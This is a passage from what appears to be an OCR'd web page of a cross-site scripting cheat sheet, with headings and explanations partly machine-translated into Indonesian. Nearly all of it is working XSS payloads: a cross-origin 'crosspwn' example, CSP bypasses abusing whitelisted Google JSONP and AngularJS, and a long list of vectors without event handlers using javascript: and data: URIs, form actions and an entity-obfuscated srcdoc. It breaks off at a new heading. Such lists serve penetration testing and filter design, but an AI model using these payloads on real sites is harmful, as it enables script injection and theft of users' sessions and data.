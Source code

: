 Example makes use of Crosspwn script (available in Miscellaneous section) at localhost

     [http://facebook.com.localhost/crosspwn.php?target=//brutelogic.com.br/tests/status.html&msg=](http://facebook.com.localhost/crosspwn.php?target=//brutelogic.com.br/tests/status.html&msg= "http://facebook.com.localhost/crosspwn.php?target=//brutelogic.com.br/tests/status.html&msg=")<script>alert(1)</script>

> CSP Bypass (for Whitelisted Google Domains)

Gunakan ketika ada CSP (Kebijakan Keamanan Konten) yang memungkinkan eksekusi dari ini

domain.

    <script src=[https://www.google.com/complete/search?client=chrome%26jsonp=alert](https://www.google.com/complete/search?client=chrome%26jsonp=alert "https://www.google.com/complete/search?client=chrome%26jsonp=alert")(1);></script>
    
    <script src=[https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js](https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js "https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js")></script><x ng-app ng-csp>{{$new.constructor('alert(1)')()}}

> Vectors without Event Handlers

Gunakan sebagai alternatif untuk penangan acara, jika mereka tidak diizinkan. Beberapa membutuhkan pengguna

interaksi sebagaimana dinyatakan dalam vektor itu sendiri (juga bagian dari mereka).

       <script>alert(1)</script>
    
       <script src=data:,alert(1)>
    
    <iframe src=javascript:alert(1)>
    
    <embed src=javascript:alert(1)>
    
    <a href=javascript:alert(1)>click
    
    <math><brute href=javascript:alert(1)>click
    
    <form action=javascript:alert(1)><input type=submit>
    
    <isindex action=javascript:alert(1) type=submit value=click>
    
    <form><button formaction=javascript:alert(1)>click
    
    <form><input formaction=javascript:alert(1) type=submit value=click>
    
    <form><input formaction=javascript:alert(1) type=image value=click>
    
    <form><input formaction=javascript:alert(1) type=image src=SOURCE>
    
    <isindex formaction=javascript:alert(1) type=submit value=click>
    
    <object data=javascript:alert(1)>
    
    <iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;>
    
    <svg><script xlink:href=data:,alert(1) />
    
    <math><brute xlink:href=javascript:alert(1)>click

> Vectors with Agnostic Event Handlers
